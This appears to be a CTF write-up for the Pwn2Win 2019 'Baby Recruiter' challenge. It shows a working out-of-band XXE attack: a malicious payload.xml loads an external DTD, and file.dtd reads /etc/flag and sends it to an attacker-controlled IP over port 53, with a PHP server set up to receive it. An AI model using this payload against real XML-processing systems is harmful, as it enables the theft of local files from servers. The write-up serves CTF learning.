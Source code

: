 # Pwn2Win CTF 2019 - Baby Recruiter - Writeup

In the rules iptabes.sh is written.
```sh
## This should be one of the first rules.
## so dns lookups are already allowed for your other rules
$ IPT -A OUTPUT -p udp --dport 53 -m state --state NEW, ESTABLISHED -j ACCEPT
$ IPT -A INPUT -p udp --sport 53 -m state --state ESTABLISHED -j ACCEPT
$ IPT -A OUTPUT -p tcp --dport 53 -m state --state NEW, ESTABLISHED -j ACCEPT
$ IPT -A INPUT -p tcp --sport 53 -m state --state ESTABLISHED -j ACCEPT
```

Input and output on port 53 is enabled, we can approve of this rule.

In the challenge page we will send the payload.

![](https://github.com/andersongomes001/ctf_scripts/blob/master/FireShot%20Capture%20022%20-%20Resume%20-%2038.240.15.141.png?raw=true)

On the server let's open an http server on port 53.

start_server.sh
```
echo $(curl -s ifconfig.me/ip)
systemctl stop systemd-resolved
php -S 0.0.0.0:53
```
payload.xml
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://51.158.67.1:53/file.dtd">
<data>&send;</data>
```
file.dtd
```
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://51.158.67.1:53/?%file;'>">
%all;
```

![](https://github.com/andersongomes001/ctf_scripts/blob/master/Captura%20de%20tela%20de%202019-11-11%2010-42-54.png?raw=true)
